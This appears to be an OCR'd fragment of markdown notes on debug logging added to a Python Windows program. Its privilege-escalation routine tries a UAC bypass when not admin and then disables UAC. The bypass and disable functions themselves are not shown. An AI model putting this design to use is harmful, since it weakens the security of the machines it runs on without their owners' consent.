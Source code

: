 ```
[DEBUG] EVENTLET SETUP COMPLETE - NOW IMPORTING OTHER MODULES
[DEBUG] ================================================================================
```

---

### **2. Admin Check Debugging (Lines 1631-1650)**

**Enhanced is_admin() function:**
```python
def is_admin():
    result = ctypes.windll.shell32.IsUserAnAdmin()
    
    if UAC_PRIVILEGE_DEBUG:
        if result:
            debug_print("✅ [ADMIN CHECK] Running as ADMINISTRATOR")
        else:
            debug_print("❌ [ADMIN CHECK] Running as NORMAL USER (not admin)")
    
    return result
```

**Output:**
```
[DEBUG] ✅ [ADMIN CHECK] Running as ADMINISTRATOR
or
[DEBUG] ❌ [ADMIN CHECK] Running as NORMAL USER (not admin)
```

---

### **3. Privilege Escalation Debugging (Lines 893-977)**

**Enhanced _init_privilege_escalation():**
```python
def _init_privilege_escalation(self):
    debug_print("=" * 80)
    debug_print("[PRIVILEGE ESCALATION] Starting privilege escalation...")
    debug_print("=" * 80)
    
    if not is_admin():
        debug_print("=" * 80)
        debug_print("❌ [PRIVILEGE ESCALATION] NOT ADMIN - NEED ELEVATION")
        debug_print("=" * 80)
        
        # STEP 1: UAC bypass
        debug_print("[PRIVILEGE ESCALATION] STEP 1: UAC bypass methods")
        uac_result = attempt_uac_bypass()
        
        if uac_result:
            debug_print("=" * 80)
            debug_print("✅ [UAC BYPASS] SUCCESS! Admin privileges gained!")
            debug_print("=" * 80)
            
            if disable_uac():
                debug_print("✅ [UAC] UAC disabled successfully!")
            else:
                debug_print("❌ [UAC] UAC disable FAILED!")
        else:
            debug_print("=" * 80)
            debug_print("❌ [UAC BYPASS] FAILED - All methods failed")
            debug_print("=" * 80)
```
